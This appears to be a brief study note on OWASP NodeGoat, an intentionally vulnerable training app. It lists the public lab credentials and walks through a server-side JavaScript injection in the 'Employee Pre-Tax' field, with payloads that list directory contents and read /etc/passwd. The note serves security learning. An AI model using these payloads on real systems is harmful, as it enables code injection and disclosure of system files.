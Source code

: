# NodeGoat
#web #hacking

https://github.com/OWASP/NodeGoat
https://wiki.owasp.org/index.php/Projects/OWASP_Node_js_Goat_Project

Tutorial
https://nodegoat.herokuapp.com/tutorial

Users
* Admin Account - u:admin p:Admin_123
* User Accounts (u:user1 p:User1_123), (u:user2 p:User2_123)
* New users can also be added using the sign-up page.


Injection attack
* Log in as
* Go to Contributions tab
* In the Employee Pre-Tax field, enter “res.end(require('fs').readdirSync('.').toString())” (without quotes)


res.end(require('fs').readdirSync('.').toString())

res.end(require('fs').readFileSync(‘/etc/passwd’))
